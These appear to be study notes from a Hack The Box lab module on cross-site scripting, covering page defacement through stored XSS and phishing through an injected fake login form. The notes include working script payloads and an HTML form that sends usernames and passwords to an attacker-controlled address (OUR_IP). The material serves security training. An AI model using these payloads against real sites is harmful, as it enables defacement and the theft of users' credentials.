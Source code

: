 **Changing Background**
To change a web page's **background**, we can choose a certain color or use an image. We will use a **color** as our **background** since most defacing attacks use a dark color for the **background**. To do so, we can use the following payload:
```<script>document.body.style.background = "#141d2b"</script>```
>[!Tip]
>Here we set the background color to the default HTB background color. We can use any other hex value, or a named color like `= "black`

Once we add our **payload** to the **To-Do** list, we will see that the background color **changed**:
![[H1H_UOH41l.png]]
This will be **persistent** through page refreshes and will appear for **anyone** who visits the page, as we are utilizing a **stored XSS** vulnerability.

Another option would be to set an **image** to the background using the following payload:
```<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>```
### Phishing
**Phishing** attacks usually utilize legitimate-looking information to trick the **victims** into sending their sensitive information to the attacker. A common form of **XSS** phishing attacks is through injecting **fake** login forms that send the **login details** to the **attacker's** server.

Furthermore, suppose we were to identify an **XSS** vulnerability in a web application for a particular **organization**. In that case, we can use such an **attack** as a phishing simulation exercise, which will also help us evaluate the **security awareness** of the organization's **employees**.

#### Discovery
When we visit a **test** website, we see that it is a simple online **image viewer**, where we can input a URL of an image, and it'll **display** it:
![[BkcAKOr4Je.png]]

This form of image viewers is **common** in online **forums** and similar web applications. As we have **control** over the URL, we can start by using the basic XSS payload we've been using. But when we try that payload, we see that nothing gets executed, and we get the dead image url icon:
![[SJG-qurNkl.png]]
#### Login Form Injection
Once we identify a working **XSS** payload, we can proceed to the phishing attack. We must inject an **HTML** code that displays a **login form** on the targeted page. This form should send the login information to a server we are listening on, such that once a user attempts to log in, we'd get their credentials.

We can easily find **HTML** code for a basic **login form**, or we can write our own:
```
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```

In the above **HTML** code, **OUR_IP** is the IP of our **VM**, which we can find with the (**ip a**) command. We will later be listening on this IP to retrieve the credentials sent from the form. The login form should look as follows:

```
<div>
<h3>Please login to continue</h3>
<input type="text" placeholder="Username">
<input type="text" placeholder="Password">
<input type="submit" value="Login">
<br><br>
</div>
```

```